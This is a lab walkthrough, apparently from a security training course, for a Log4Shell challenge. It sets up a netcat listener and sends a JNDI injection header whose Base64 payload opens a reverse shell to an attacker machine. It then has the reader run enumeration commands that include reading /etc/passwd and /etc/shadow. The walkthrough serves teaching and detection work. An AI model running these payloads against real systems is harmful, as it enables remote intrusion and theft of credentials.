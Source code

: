 # 3 - Upgrade to a Reverse Shell

For this challenge you'll be following the same process with one minor modification. You need to setup a listener for the reverse shell connection and change the payload.

1.  Start by connecting to the **Ubuntu Attacker Endpoint.**
    
2.  Create a new terminal session for the netcat listener:
    
    `screen -S nc`
    
3.  Start netcat as a listener on port **7777**:
    
    `nc -lvp 7777`
    
    **Note:** Netcat (nc) is a networking utility used to establish connections. For now, you can leave that up and listening
    
    -   `-l` = listen mode
    -   `-v` = verbose
    -   `-p` = sets the port
        
4.  Detach from that session by using the button key combinations of `CTRL + A`, let go, and then press `D`.
    
5.  Time to send the upgraded payload!
    
    `curl 172.31.24.20:8080 -H 'X-Api-Version: ${jndi:ldap://172.31.24.10:1389/Basic/Command/Base64/bmMgLW52IDE3Mi4zMS4yNC4xMCA3Nzc3IC1lIC9iaW4vc2g=}'`
    
    **Note:** The Base64 encoded string translates to: `nc -nv 172.31.24.10 7777 /bin/sh`
    
    **Analysis:** The vulnerable application is running an extremely old version of netcat susceptible to sending a shell through the netcat connection. While this works for our test environment to understand the principles of what is taking place, it will most likely fail with a production application.
    
6.  Reattach to the netcat terminal session:
    
    `screen -r nc`
    
7.  You have established a reverse shell! Now an attacker would typically perform some enumeration. Try some of these commands out to see the response:
    
    -   `uname -a`
    -   `whoami`
    -   `env`
    -   `cat /etc/passwd`
    -   `cat /etc/shadow`﻿
        

Feel free to spend a bit more time before moving on to analysis and detection. You can send different payloads by replacing the Base64 string in the curl command.

-   ﻿[CyberChef](https://gchq.github.io/CyberChef/) is a good resource to encode/decode strings.
-   You can also use Linux to:
    -   Encode: `echo -n 'string' | base64`
    -   Or Decode: `echo -n 'NDJpc3RoZWFuc3dlcg==' | base64 --decode`
        

In the next challenge, you will be performing some analysis and taking a look at a detection method.